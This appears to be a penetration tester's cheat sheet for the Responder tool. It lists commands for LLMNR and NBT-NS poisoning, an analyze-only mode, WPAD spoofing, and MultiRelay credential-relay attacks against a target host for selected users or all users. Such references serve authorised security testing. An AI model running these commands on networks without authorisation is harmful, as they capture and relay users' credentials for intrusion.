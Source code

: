 # responder

% responder, LLMNR, NBT-NS, Poisoning, man in the middle

## responder launch
```
responder –I eth0
```

## responder launch - analyze mode (no poisoning)
```
responder –I eth0 -A
```

## responder launch with wpad file 
```
responder -I eth0 --wpad
```

## multirelay attack - user filtered (previous disable HTTP and SMB in Responder.conf)
```
responder-MultiRelay -t <ip> -u <user1> <user2>
```

## multirelay attack - all user (previous disable HTTP and SMB in Responder.conf)
```
responder-MultiRelay -t <ip> -u ALL
```
